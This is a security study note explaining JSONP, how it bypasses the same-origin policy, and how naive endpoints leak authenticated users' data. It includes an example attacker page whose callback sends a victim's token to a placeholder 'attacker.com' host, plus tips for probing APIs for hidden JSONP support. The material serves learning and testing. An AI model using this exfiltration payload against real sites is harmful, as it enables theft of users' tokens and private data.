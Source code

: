 >[!info] Pre-requisites:
>- [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md)
>- [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

# JSON with Padding (JSONP)

>[!question] What is JSONP?
>Is a historical [JavaScript](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md) technique for requesting JSON data by loading a `<script>` element, enabling sharing of data across domains **bypassing** the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

By default, the same origin policy prevents reading JSON cross site. JSONP is a little bit of a hack: it wraps JSON data in a JavaScript function call (previously defined in the original site). This makes it possible to read the JSON cross-site, by including the JSONP resource as a script.

JSON data to read: 
```json
{"name":"0xbro"}
```

JSONP data: 
```json
somefunction({"name":"0xbro"})
```

Reading the JSON cross site is possible by doing `<script src="https://my.webapp/data.jsonp">` where `somefunction` has already been defined in the source code:

```html
<script> 
	function somefunction(data) { 
		// The data variable will contain the JSON data. 
	}
</script>
<script src="https://my.webapp/data.jsonp">
```

Sometimes it is used a more dynamic approach, where the application requesting the data provides a parameter (usually `callback`) used to create the JSONP data:
```html
<script> 
	function parseResponse(data) { 
		// The data variable will contain the JSON data. 
	}
</script>
<script src="https://my.webapp/data?callback=parseResponse">

// JSONP result
parseResponse({"Name": "Clem", "Id": 1234, "Rank": 7});
```
# JSONP vulnerabilities

JSONP makes it possible to access data from another website in a [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF))-like style attack:
1. The attacker’s site includes the JSONP URL as a script. 
2. The browser performs the request, and sends cookies along if the user is authenticated. 
3. The JSONP will return the data for the authenticated user, and the attacker’s site can read that.

## Cross-site Request Forgery & Data Leakage

Naive deployments of JSONP are subject to [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF)) attacks. Because the HTML `<script>` element does not respect the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) in web browser implementations, a malicious page can request and obtain JSON data belonging to another site. This will allow the JSON-encoded data to be evaluated in the context of the malicious page, possibly divulging passwords or other sensitive data if the user is currently logged into the other site.

Application JSONP endpoint:
```http
GET /api/getUserToken HTTP/1.1
Cookie: sessid=asd

get({"token":"supersecret-token"})
```

Malicious page redirecting user traffic to the JSONP endpoint and extracting the corresponding data:

```html
<script>
function get(data){
	fetch('https://attacker.com/?data='+JSON.stringify(data);
}
</script>
<script src='https://vulnerable.com/api/getUserToken'></script>
```

Other similar attacks and bypasses can be found below:
- Object method call
- Content-Type and X-Content-Type-Options bypass

```cardlink
url: https://securitycafe.ro/2017/01/18/practical-jsonp-injection/
title: "Practical JSONP Injection"
description: "JSONP injection is a lesser known but quite widespread and dangerous vulnerability and it surfaced in the last years due to the high rate of adoption of JSON, web APIs and the urging need for cross…"
host: securitycafe.ro
favicon: https://secure.gravatar.com/blavatar/c798a440ec703a17d8eda6a25b9dac06fa8162164e7e563dbc832069a934ce2b?s=32
image: https://kpmgsecurity.files.wordpress.com/2017/01/specified-callback-code.png
```

## Untrusted third-party code

Including script elements from remote servers allows the remote servers to inject _any_ content into a website. If the remote servers have vulnerabilities that allow JavaScript injection, the page served from the original server is exposed to an increased risk. If an attacker can inject any JavaScript into the original web page, then that code can retrieve additional JavaScript from any domain [^3rd-party]

[^3rd-party]: [Untrusted third-party code](https://en.wikipedia.org/wiki/JSONP#:~:text=%5Bedit%5D-,Untrusted%20third%2Dparty%20code,-%5Bedit%5D), wikipedia.org

## Callback name manipulation and reflected file download attack


# Detect hidden attack surface

Sometimes, JSONP is not used by the site but the API still supports it. To check an endpoint for JSONP support, try this:

- Add a callback parameter to a JSON URL, by appending `?callback=something` to the URL.
- When a format type is provided, change it to JSONP. Change `?format=json` to `?format=jsonp`

>[!example]
> Original site: https://demo.sjoerdlangkemper.nl/jsonp.php
>
>```json
{"hello":"world","number":8024046285436083725,"token":"4db7c9cc0bb2c73e10f543180dae83fd65fb4569b1a3cd9df62c1a33dfc72f75"}
>```
>Hidden supported parameters: https://demo.sjoerdlangkemper.nl/jsonp.php?format=jsonp&callback=pwned
>```json
>pwned({"hello":"world","number":2969561363119907216,"token":"4db7c9cc0bb2c73e10f543180dae83fd65fb4569b1a3cd9df62c1a33dfc72f75"})
>```

